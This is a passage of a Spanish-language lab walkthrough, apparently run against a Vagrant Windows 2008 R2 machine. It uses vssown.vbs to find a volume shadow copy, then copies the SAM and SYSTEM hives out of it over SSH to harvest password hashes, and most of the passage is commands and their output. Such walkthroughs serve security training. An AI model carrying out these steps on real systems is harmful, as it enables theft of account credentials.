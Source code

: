    [*] Originating machine: vagrant-2008R2
    [*] Persistent:          True
    [*] Plex:                False
    [*] Provider ID:         {B5946137-7B9F-4925-AF80-51ABD60B20D5}
    [*] Service machine:     vagrant-2008R2
    [*] Set ID:              {9D5F48C4-0B60-4C76-B47E-97A018A6E1CB}
    [*] State:               12
    [*] Transportable:       False
    [*] Volume name:         \\?\Volume{3aefe34c-7b16-11e7-a4cb-806e6f6e6963}\
    ```

- **Nota**: `cscript` es el intérprete para ejecutar archivos `.vbs`. Este comando le indica a Windows que ejecute el script VBS.


- El script `vssown.vbs` generará una salida con la ubicación de la copia de sombra. Anotar esta ruta, ya que será la ubicación donde podremos acceder a los archivos `SAM` y `SYSTEM` sin restricciones. En el comando anterior, la ruta es:

    `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1`

### 5.5. Copia los Archivos SAM y SYSTEM

- Ahora que tenemos la ruta de la copia del volumen shadow, entrar en modo `cmd`:

    ```shell
    ssh vagrant@10.0.2.15

    -sh-4.3$ cmd

    C:\Users\vagrant>cd C:\Windows\Temp
    cd C:\Windows\Temp
    ```

- Y copiar los archivos SAM y SYSTEM del volumen shadow:

    ```shell
    C:\Windows\Temp>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\SAM C:\Windows\Temp\SAM
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\windows\system32\config\SAM C:\Windows\Temp\SAM
    1 file(s) copied.

    C:\Windows\Temp>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\Windows\Temp\SYSTEM
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\System32\config\SYSTEM C:\Windows\Temp\SYSTEM
    1 file(s) copied.
    ```

- Salimos del modo `cmd`

    ```shell
    C:\Windows\Temp>exit
    exit
    ```
